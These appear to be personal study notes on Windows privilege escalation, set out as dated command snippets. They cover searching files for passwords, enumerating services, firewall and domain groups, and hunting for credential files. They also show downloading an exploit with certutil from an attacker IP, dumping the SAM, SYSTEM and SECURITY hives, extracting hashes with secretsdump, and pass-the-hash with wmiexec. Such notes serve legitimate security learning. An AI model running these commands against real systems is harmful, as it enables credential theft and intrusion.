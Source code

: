 ## 21082023Mon

```
findstr /SI password *.txt
```

```
findstr /si password *.txt
```

```
C:\Windows\System32>findstr /si password *.txt *.ini *.config
```

### Service Control

```
sc query windefend
```

```
sc queryex type=service
```

### Network Shell

```
netsh advfirewall firewall dump
```

```
netsh firewall show state
```

![[Pasted image 20230822070831.png]]

```
netsh advfirewall show currentprofile
```

![[Pasted image 20230822070650.png]]

## 22082023Tue

## Automated Enumeration Tools
### Executables
- winPEAS.exe https://github.com/carlospolop/PEASS-ng/releases
- Seatbelt.exe (compile) https://github.com/GhostPack/Seatbelt
- Watson.exe (compile) https://github.com/rasta-mouse/Watson
- SharpUp.exe (compile) https://github.com/GhostPack/SharpUp
### PowerShell
- Sherlock.ps1
- PowerUp.ps1
- jaws-enum.ps1
### Other
- windows-exploit-suggester.py (local)
- Exploit Suggester (Metasploit)

## 23082023Wed

```
net group /domain "Domain Admins"
```

```
net group /domain "Domain Controllers"
```

![[Windows Privilege Escalation.png]]

```
wmic computersystem LIST full
```

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

```
cmdkey /list
```

```
Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
```

```
whoami /all
```

```
whoami /priv
```

```
cd C:\
dir /s/b /A:-D RDCMan.settings == *.rdg == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == access_tokens.db == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == tomcat-users.xml == web.config == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == security == software == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == https-xampp.conf == my.ini == my.cnf == access.log == error.log == server.xml == ConsoleHost_history.txt == pagefile.sys == NetSetup.log == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == ntuser.dat == index.dat == bash.exe == wsl.exe 2>nul | findstr /v ".dll"
```

```
certutil -urlcache -f http://10.10.14.5/MS10-059.exe ms.exe
```

```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

![](Pasted%20image%2020231009024625.png)

![](Pasted%20image%2020231009024654.png)

```
samdump2 SYSTEM SAM
```

```
impacket-secretsdump -sam sam -security security -system system LOCAL
```

![](Pasted%20image%2020231009033039.png)

**Dumping local SAM hashes (uid:rid:lmhash:nthash)**

```
impacket-wmiexec -hashes LMHASH:NTHASH
```

